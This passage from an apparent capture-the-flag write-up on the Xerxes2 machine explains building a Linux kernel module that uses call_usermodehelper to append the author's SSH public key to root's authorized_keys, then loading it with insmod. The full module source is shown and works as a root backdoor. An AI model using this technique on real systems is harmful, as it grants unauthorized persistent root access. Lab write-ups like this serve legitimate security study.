 Alrighty, that was, easy! However, this is not really useful. I want command execution! So, what did I do? `#include <stdio.h>`, and `system()` some commands to run `stuff`, getting me a `/tmp/getroot` prepared.

_insert loud crash and burn sound here_

Turns out, kernel development is pretty anti command execution. Compiling modules that have stuff like `stdio.h` included will fail with headers not found type errors. One can hack the Makefile to include headers from `/usr/include`, but it just ends up being a mess. However, there is a handy little function in `kmod.h` called `call_usermodehelper()`. From the [kernel docs](https://www.kernel.org/doc/htmldocs/kernel-api/API-call-usermodehelper.html), `call_usermodehelper()` will _prepare and start a usermode application_. **That** sounds pretty handy in our case :)

So, time to rewrite `hello.c` to be useful! Puzzling the pieces together I found on the internet, [this](http://stackoverflow.com/questions/7143105/call-usermodehelper-call-usermodehelperpipe-usage) amongst other pieces of information helped get the ball rolling.

```bash Rewritten hello.c to rooted.c
#include <linux/module.h>       /* Needed by all modules */
#include <linux/kernel.h>       /* Needed for KERN_INFO */
#include <linux/init.h>         /* Needed for the macros */

/* For our shell ^_^ */
#include<linux/kmod.h>

int get_root (void)
{

    char * envp[] = { "HOME=/", NULL };
    char *argv[] = { "/bin/bash", "-c", "/bin/cat /tmp/pubkey >> /root/.ssh/authorized_keys", NULL};
    printk(KERN_INFO "Call Usermodehelper...\n");
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    printk(KERN_INFO "Done usermodehelper...\n");
    return 0;
}
 
static int __init hello_start(void)
{
    printk(KERN_INFO "Loading rooted module...\n");
    return get_root();
    return 0;
}

static void __exit hello_end(void)
{
    printk(KERN_INFO "Goodbye Mr.\n");
}

module_init(hello_start);
module_exit(hello_end);
```

As can be seen in the code above, I added a function `get_root()`, that will append whatever is in `/tmp/pubkey` to `/root/.ssh/authorized_keys` using `call_usermodehelper`. `/tmp/pubkey` contained the public key of the keypair I generated at the beginning of starting Xerxes2. I modified `Makefile` to have `obj-m += rooted.o` this time, `make`'d the source and ran the `insmod` for the newly build `rooted.ko`. Then, I inspected the kernel messages again, and attempted to login as root:
